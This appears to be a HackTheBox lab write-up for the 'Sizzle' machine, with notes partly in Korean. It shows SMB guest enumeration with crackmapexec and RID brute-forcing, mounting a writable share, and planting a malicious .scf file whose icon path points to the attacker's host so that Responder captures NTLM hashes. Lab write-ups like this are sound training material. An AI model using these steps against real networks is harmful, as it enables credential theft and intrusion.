 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares

# smb folder mount
mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```
```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.3\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)


### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

```

```
smb guest enum
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

SIZZLE$
DnsAdmins
DnsUpdateProxy
amanda
mrlky
sizzler

SMB         10.129.166.251  445    SIZZLE           [+] HTB.LOCAL\DnsAdmins:123456 
SMB         10.129.166.251  445    SIZZLE           [+] HTB.LOCAL\DnsUpdateProxy:123456

sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
```